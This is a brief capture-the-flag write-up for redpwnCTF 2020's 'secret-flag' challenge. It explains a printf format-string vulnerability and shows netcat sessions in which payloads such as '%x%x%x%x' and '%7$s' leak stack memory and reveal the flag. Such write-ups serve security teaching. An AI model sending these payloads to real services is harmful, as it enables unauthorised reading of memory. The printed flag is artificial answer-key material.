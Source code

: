 ### Challenge
```
pwn/secret-flag
NotDeGhost

There's a super secret flag in printf that allows you to LEAK the data at an address??

nc 2020.redpwnc.tf 31826
```

### Recon
* Prinf + Binary --> Obvious format string vuln
* using %x%x%x%x with bin execution confirms the same

### Solve
* Bruteforce
```
kali@kali$$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%x%x%x%x
Hello there: 51b5b5c0918f5780916262c091b1c700

kali@kali$$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%3$s
Hello there: H=???s1?H????

kali@kali$$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}

kali@kali$$
```